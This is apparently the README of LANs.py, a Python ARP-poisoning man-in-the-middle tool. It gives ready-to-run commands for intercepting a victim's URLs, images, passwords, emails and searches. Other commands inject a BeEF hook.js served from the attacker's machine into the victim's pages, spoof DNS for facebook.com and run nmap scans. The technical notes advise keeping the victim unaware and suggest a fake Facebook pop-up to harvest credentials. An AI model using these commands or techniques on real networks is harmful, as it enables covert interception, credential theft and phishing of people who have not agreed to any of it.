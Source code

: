 LANs.py
========

Multithreaded asynchronous packet parsing/injecting ARP poisoner.

Individually poisons the ARP tables of the target box, the router and the DNS server if necessary. Does not poison anyone else on the network. Displays all most the interesting bits of their traffic and can inject custom html into pages they visit. Cleans up after itself.


Prereqs: Linux, scapy, python nfqueue-bindings 0.4.3+, aircrack-ng, python twisted, BeEF (optional), and a wireless card capable of promiscuous mode if you choose not to use the -ip option

Tested on Kali 1.0. In the following examples 192.168.0.5 will be the attacking machine and 192.168.0.10 will be the victim.


Full usage:

``` shell
LANs.py [-h] [-b BEEF] [-c CODE] [-u] [-ip IPADDRESS] [-vmac VICTIMMAC] [-d]
  [-v] [-dns DNSSPOOF] [-set] [-p] [-na] [-n] [-i INTERFACE] [-rip ROUTERIP]
  [-rmac ROUTERMAC] [-pcap PCAP]
```

Usage
-----

### Simplest usage:

``` shell
python LANs.py
```

Because there's no -ip option this will ARP scan the network, compare it to a live running promiscuous capture, and list all the clients on the network including their Windows netbios names along with how many data packets they're sending. so you can immediately target the active ones. The ability to capture data packets they send is very dependent on physical proximity and the power of your network card. then you can Ctrl-C and pick your target which it will then ARP spoof. Simple target identification and ARP spoofing.

### Passive harvesting:

``` shell
python LANs.py -u -d -p -ip 192.168.0.10
```

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-d: open an xterm with driftnet to see all images they view

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received; will also decode base64 if the email authentication is encrypted with it

-ip: target this IP address

Easy to remember and will probably be the most common usage of the script: options u, d, p, like udp/tcp.


### HTML injection:

``` shell
python LANs.py -b http://192.168.0.5:3000/hook.js
```

Inject a BeEF hook URL (http://beefproject.com/, tutorial: http://resources.infosecinstitute.com/beef-part-1/) into pages the victim visits.


``` shell
python LANs.py -c '<title>Owned.</title>'
```

Inject arbitrary HTML into pages the victim visits. First tries to inject it after the first `<head>` and failing that injects prior to the first `</head>`. This example will change the page title to 'Owned.'


### Read from pcap:

``` shell
python LANs.py -pcap libpcapfilename -ip 192.168.0.10
```

To read from a pcap file you must include the target's IP address with the -ip option. It must also be in libpcap form which is the most common anyway. One advantage of reading from a pcap file is that you do not need to be root to execute the script.


### Aggressive usage:

``` shell
python LANs.py -v -d -p -n -na -set -dns facebook.com -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10
```

### All options:

``` shell
python LANs.py -h
```

-b BEEF_HOOK_URL: copy the BeEF hook URL to inject it into every page the victim visits, eg: -b http://192.168.1.10:3000/hook.js

-c 'HTML CODE': inject arbitrary HTML code into pages the victim visits; include the quotes when selecting HTML to inject

-d: open an xterm with driftnet to see all images they view

-dns DOMAIN: spoof the DNS of DOMAIN. e.g. -dns facebook.com will DNS spoof every DNS request to facebook.com or subdomain.facebook.com

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-i INTERFACE: specify interface; default is first interface in `ip route`, eg: -i wlan0

-ip: target this IP address

-n: performs a quick nmap scan of the target

-na: performs an aggressive nmap scan in the background and outputs to [victim IP address].nmap.txt

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received

-pcap PCAP_FILE: parse through all the packets in a pcap file; requires the -ip [target's IP address] argument

-rmac ROUTER_MAC: enter router MAC here if you're having trouble getting the script to automatically fetch it

-rip ROUTER_IP: enter router IP here if you're having trouble getting the script to automatically fetch it

-v: show verbose URLs which do not truncate at 150 characters like -u



### Clean up

Upon receiving a Ctrl-C:

-Turns off IP forwarding

-Flushes iptables firewall

-Individually restores the router and victim's ARP tables



Technical details
------------------

This script uses a python nfqueue-bindings queue wrapped in a Twisted IReadDescriptor to feed packets to callback functions. nfqueue-bindings is used to drop and forward certain packets. Python's scapy library does the work to parse and inject packets.

Injecting code undetected is a dicey game, if a minor thing goes wrong or the server the victim is requesting data from performs things in unique or rare way then the user won't be able to open the page they're trying to view and they'll know something's up. This script is designed to forward packets if anything fails so during usage you may see lots of "[!] Injected packet for www.domain.com" but only see one or two domains on the BEeF panel that the browser is hooked on. This is OK. If they don't get hooked on the first page just wait for them to browse a few other pages. The goal is to be unnoticeable. My favorite BEeF tools are in Commands > Social Engineering. Do things like create an official looking Facebook pop up saying the user's authentication expired and to re-enter their credentials.

NOTE TO UBUNTU USERS:
You will need to update your nfqueue-bindings to the latest version (0.4.3 as time of writing) or you will have to edit the Parser.start() (line 127) function to say:

def start(self, i, payload):


License
-------

Copyright (c) 2013, Dan McInerney
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:
* Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
* Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution.
* Neither the name of the Dan McInerney nor the names of its contributors may be used to endorse or promote products derived from this software without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND
ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED
WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL <COPYRIGHT HOLDER> BE LIABLE FOR ANY
DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
(INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES;
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND
ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
(INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS
SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
